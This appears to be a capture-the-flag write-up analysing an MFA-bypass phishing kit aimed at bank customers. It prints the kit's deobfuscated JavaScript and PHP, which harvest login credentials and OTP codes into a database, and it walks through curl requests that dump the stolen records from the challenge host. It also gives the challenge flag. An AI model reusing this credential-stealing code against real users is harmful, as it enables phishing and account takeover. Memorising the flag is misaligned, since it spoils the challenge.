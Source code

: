 # TheOneAndOnlyKit

You work as a Security Analyst in the SOC for a financial collaboration company supporting a wide set of companies, including banks.

A customer has forwarded a screenshot of a possible phishing scam targetting a new bank. It seems to be related to the new MFA-bypass kit: `TheOneAndOnlyKit`. We have obtained a copy of the kit through well-established partners.

The image is a bit blurry, but we think it says "Your bank account will be deleted" along with a URL. The URL indicates an unsuspecting website has been infected with this kit on a subpath `/bank`.

Analyse the kit and the landing page. Your goal is to scrape all dropdata so we can notify compromised individuals. Since this kit automates MFA bypass there should be MFA-codes in the dropdata. The unsuspecting website "Snowflakes" shouldn't contain anything valuable.

Password for .zip file is `infected`.

`Landingpage`:

[🔗 https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank](https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank)

[⬇️ TheOneAndOnlyKit.zip](./TheOneAndOnlyKit.zip)
[⬇️ mobile_sms.jpeg](./mobile_sms.jpeg)

# Writeup

Did a quick rundown of the file structure and after a quick unobfuscating using a [PHP Sandbox](https://onlinephp.io/) I got a better understanding of the files. The file structure is like this:

```
phishingkit
├── 3e9670ade4
│   ├── b127dc4ec6.php    - Stealer for OTP
│   └── d39502937d.php    - Stealer for LOGIN
├── 876651db5c.php        - Debug variable
├── 9c2c870bd5
│   ├── 8a5e761c8f.php    - Session variable setter
│   ├── aff1ec8c49.php    - Session variable modifier
│   └── cffcad5842.php    - Extractor
├── c7204c9ddd.php        - Redirects to legit login page
├── e246e44313
│   ├── 5784514e82.php    - Database credentials
│   └── b6a11be58b.php    - Database connection
├── index.php             - Frontend login page
├── site
│   ├── index.html        - Login template
│   └── verify-2fa.html   - 2FA template
├── static
│   └── styles.css        - Styles
└── verify-2fa.php        - 2FA submission
```

### index.php

The `index.php` loads the login template and has a custom function bound to the login button. This function looks like this and submits data to the login stealer file. On success it redirects to the 2FA page.

```js
function b6fef750de(){
  let _4ef1208a7b = $('#username').val();
  let _edc57189e7 = $('#password').val();
  let _fbb099f391 = '<?= $fbb099f391 ?>';
  $.ajax({
    type:'POST',
    url:'3e9670ade4/d39502937d.php',
    data:{
      username:_4ef1208a7b,
      password:_edc57189e7,
      sessionid:_fbb099f391
    },
    success: function(data){window.location='verify-2fa.php'}
  });
  return false;
};
```

## verify-2fa.php

This does exactly the same as the `index.php` but for the 2FA page. It posts the OTP to the OTP stealer file and on success it redirects to the real banking login site.

## Stealer files

Both stealerfiles are simple insert queries. They insert the data sent to them into a database.

### Login stealer file (d39502937d.php) deobfuscated

```php
session_start();

require '../e246e44313/b6a11be58b.php'; // Loads the database connection as $a4144c39c6

if($_POST['username'] and $_POST["password"]){

    $username=$_POST["username"];
    $password=$_POST["password"];
    $sessionid=$_POST["sessionid"];
    $now = time();    
    
    $sql="INSERT INTO awesome (username,password,sessionid,status,timestamp) VALUES ('$username','$password','$sessionid','signin','$now')";
    mysqli_query($a4144c39c6,$sql);
    $error=mysqli_error($a4144c39c6);
}
```

### OTP stealer file (b127dc4ec6.php) deobfuscated

```php
session_start();

require '../e246e44313/b6a11be58b.php'; // Loads the database connection as $a4144c39c6

if($_POST['otp']) {
    $otp=$_POST["otp"];
    $sessionid=$_POST["sessionid"];
    $now = time();
    $sql = "INSERT INTO awesome (otp,sessionid,status,timestamp) VALUES ('$c6f2928eaf','$sessionid','otp','$now')";
    mysqli_query($a4144c39c6,$sql);
    $error=mysqli_error($a4144c39c6);
}
```

## Extractor file (cffcad5842.php)

This file is a GUI for the database, but it has a few `security measures`.

1. It checks if the session variable `6353f3496e` is set. If not it redirects to a rickroll.
2. It checks if the POST variable `180be329ca` is set. If not it redirects to the main page.
3. It checks if the POST variable `180be329ca` is the value of the varaible set in the debug variable file. If not it redirects to the main page.

If all these checks pass it will query the database for the keys given in the `6353f3496e` in the session variable and return it as a HTML table.

### Setting the 6353f3496e session variable

To get the data from the database I need to set the session variable `6353f3496e`. This is done in the `8a5e761c8f.php` file. This file sets the session variable to an array with the keys `id`, `username`, `password` and `timestamp`. This is done by just visiting the file.

### Modifying the session variable to include more fields like `otp` and `sessionid`

This is done in the `aff1ec8c49.php` file. This file takes two POST variables `a6f1f808de` and `ebd3a6d835`. If the `a6f1f808de` is set to `true` it will push the value of `ebd3a6d835` to the session variable `6353f3496e`. This is done by sending a POST request to the file with the variables set.

*NOTE* It is important to keep the same PHPSESSIONID when sending the POST request. This is done by getting the `Set-Cookie` header from the first request and sending it with the POST request. Now you maintain the same session id which is important to add to the session variable.

## Getting the data

### Step 1: Initialize Session

```bash
curl -v https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/8a5e761c8f.php 
```

Retrieve the `PHPSESSID` from the response:

```
PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a; path=/
```

### Step 2: Fetch Credentials

```bash
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "180be329ca=339db89622" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/cffcad5842.php -o victims.html
```

Now we received the `victims.html` file with the credentials. But no OTP or Session ID.

### Step 3: Include OTP & Session ID
Modify the session variable to include `otp` and `sessionid`:
```bash
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "a6f1f808de=true&ebd3a6d835=otp" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/aff1ec8c49.php
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "a6f1f808de=true&ebd3a6d835=sessionid" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/aff1ec8c49.php
```

#### Step 4: Re-fetch Data with OTP

```bash
curl -H "Cookie: PHPSESSID=7f5cdb33f6834e2b624eab8759fce36a" -d "180be329ca=339db89622" -X POST https://helsectf2025-42694257c6fdb3976dd6-snowflakes.chals.io/bank/9c2c870bd5/cffcad5842.php -o victims.html
```

## Profit

![flag](image.png)


# Flag

```
helsectf{dropdata_obtained__a7f49799cc}
```